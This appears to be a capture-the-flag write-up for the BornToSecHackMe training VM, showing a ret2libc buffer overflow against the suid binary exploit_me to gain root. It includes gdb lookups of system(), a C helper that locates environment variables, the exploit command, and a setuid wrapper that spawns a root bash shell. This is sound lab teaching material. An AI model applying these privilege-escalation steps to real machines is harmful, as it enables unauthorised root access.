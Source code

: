 # Writeup 3 - ret2libc

> This writeup takes from [Writeup 1](../writeup1/README.md), having discovered `zaz` user's credentials.

Instead of writing our payload to the stack to execute it, we can use a "ret2libc" technique, which will jump to a libc function that will execute our payload.

## Preparation

Like the previous writeup, we first need access to a proper shell on the machine, here we use the `zaz` user account again, as it contains the `exploit_me` binary, needed for this exploit.

## Explanation

In the first `breadcrumbs` path, we simply execute the stack of the vulnerable suid binary to get a shell with elevated privileges. This works fine on this machine as the stack of this program is ***executable***: this means we can easily overwrite a return address with an address of a user-controlled shellcode.
With newer machines, and better security standards, the stack of a program is usually not executable, which makes the previous exploit unusable. This is where ***ret2libc*** or ***return to libc*** comes in. The idea behind this exploit is very similar, it is still a stack overflow attack, but instead of inputting an address pointing to a *shellcode* to run we point towards the memory location of the function `system()`, to which we can pass the path to a shell to be executed.

## Running the exploit

We first need to find the address of the `system()` function in libc, we can do this in `gdb`:
```
Temporary breakpoint 1, 0x080483f7 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

Next, we need to find somewhere in memory where the string `/bin/sh` is stored, so we can pass it to `system()` and execute it. We can either use the `strings` command to analyze loaded libraries (`libc.so`), or we can look into environment variables. A common environment variable that's set by the shell and already available to us is...
```bash
$ echo $SHELL
/bin/sh
```

Conveniently, the vim buffer in the `zaz` user's home has some code left over we can just.. paste!
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
    char *ptr;
    if (argc < 3) {
        printf("Usage: %s <environment var> <target program name>\n", argv[0]);
        exit(0);
    }
    ptr = getenv(argv[1]); /* Get env var location. */
    ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* Adjust for program name. */
    printf("%s will be at %p\n", argv[1], ptr);
}
```

Superb! Delicously simple. We can now update our payload with the address of the environment variable, and we're good to go!
```bash
$ export SHELL=/bin/dash
$ cc env.c -o env
$ ./env SHELL ./exploit_me
SHELL will be at 0xbffff927
```

Neat! Everything we need is already in memory, we just need to get our payload into an executable position via some ridiculously crafted offset aaaaanddddd:
```bash
$ ./exploit_me $(echo -en $(python2 payload-ret2libc.py 0xbffff927))
...
# id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
```

And we're done! Almost.

A little bit of cleanup is needed:
```c
#include <stdlib.h>

int main(void) {
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
```

```
# cc -o /tmp/final /tmp/final.c
# /tmp/final
root@BornToSecHackMe:~# id
uid=0(root) gid=0(root) groups=0(root)
```

pwned. 😎 (true hacker style)
